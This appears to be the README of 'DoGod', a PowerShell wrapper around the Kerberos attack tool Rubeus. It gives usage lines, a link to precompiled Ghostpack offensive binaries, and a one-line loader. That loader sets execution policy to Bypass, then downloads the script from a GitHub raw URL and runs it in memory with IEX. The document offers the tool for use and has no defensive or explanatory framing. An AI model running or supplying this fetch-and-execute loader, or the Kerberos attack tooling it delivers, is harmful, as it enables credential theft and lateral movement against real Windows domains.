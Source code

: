 # DoGod
*Rubeus wrapped in PowerShell*

import-module ./DoGod.ps1 ---> Loads Rubeus

DogGod ---> Rubeus native help menu

Use Onscreen Instructions for DoGod syntax!

IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/DoGod/main/DoGod.ps1'))


Rubeus.exe: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
